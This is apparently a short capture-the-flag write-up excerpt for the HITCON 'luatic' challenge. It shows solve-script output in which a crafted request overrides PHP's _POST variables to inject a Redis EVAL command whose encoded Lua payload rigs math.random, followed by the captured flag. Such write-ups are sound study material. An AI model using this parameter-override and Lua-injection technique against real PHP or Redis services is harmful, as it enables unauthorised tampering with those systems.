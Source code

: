 ```
$ python3 solve.py
http://(省略)/luatic.php?token=(省略)&guess=123&_POST[MY_SET_COMMAND]=EVAL&_POST[TEST_KEY]=loadstring%28tostring%281%29%3Achar%28102%2C117%2C110%2C99%2C116%2C105%2C111%2C110%2C32%2C109%2C97%2C116%2C104%2C46%2C114%2C97%2C110%2C100%2C111%2C109%2C40%2C41%2C32%2C114%2C101%2C116%2C117%2C114%2C110%2C32%2C49%2C50%2C51%2C32%2C101%2C110%2C100%29%3Asub%282%29%29%28%29&_POST[TEST_VALUE]=0
Something Wrong?
http://(省略)/luatic.php?token=(省略)&guess=123
Congratulations, the flag is hitcon{Lua^H Red1s 1s m4g1c!!!}
```

```
hitcon{Lua^H Red1s 1s m4g1c!!!}
```